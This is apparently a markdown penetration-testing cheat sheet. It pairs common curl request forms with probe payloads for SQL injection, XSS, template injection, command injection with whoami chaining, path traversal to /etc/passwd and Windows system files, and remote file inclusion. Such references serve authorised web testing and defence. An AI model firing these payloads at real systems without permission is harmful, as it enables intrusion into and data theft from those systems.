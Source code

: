 # APIs and Fields

## Simulating Requests

#### GET

```
curl <url>
```

#### HEAD

```
curl -I <url>
```

#### PUT

```
curl -T <file> http://www.upload.com/myfile
```

#### GET - Params

```
curl <url>?field=value&field2=value2
```

#### GET - Follow Redirect

```
curl -L <url>
```

#### GET - Custom Headers

```
curl <url> -H "header1: value" -H "header2: value"
```

#### GET - Custom Cookies

```
curl -b "name1=value1; name2=value2" <url>
```

#### POST - Form Data

```
curl -X POST <url>
   -H "Content-Type: application/x-www-form-urlencoded" 
   -d "key1=value1&key2=value2" 
```

#### POST - JSON

```
curl -X POST <url>
    -H 'Content-Type: application/json'
    -d '{"field1":"value1","field2":"value2"}'
```

#### POST - Send File

```
curl -X POST <url> -d @<path to file>
curl -X POST <url> -F @<path to file>               #as form encoded
curl -X POST <url> --data-binary @<path to file>    #use this if file is corrupted
```

#### POST - Base Auth

```
curl -X POST <url> --user "<user>:<password>"
curl -X POST <url> -H "Authorization: Basic $(echo -n "<user>:<pass>" | base64)"
curl -X POST <url> -H "Authorization: Bearer <token>" 
```

## Testing parameters

#### SQL Injection

```
'"`) or 'a' = 1;    
'"` or 1 = 1; 

sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

#### XSS

```
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>

`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

#### Template Injection

```
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

#### RCE

```
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");

echo exec("<cmd>");
echo `<cmd>`;

<!--#exec cmd="<cmd>" --> 

whoami
$(whoami)
;whoami
||whoami
&&whoami
```

#### Local File Inclusion

```
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

#### Remote File Inclusion

```
http://www.google.com
http://<controlled ip>
```

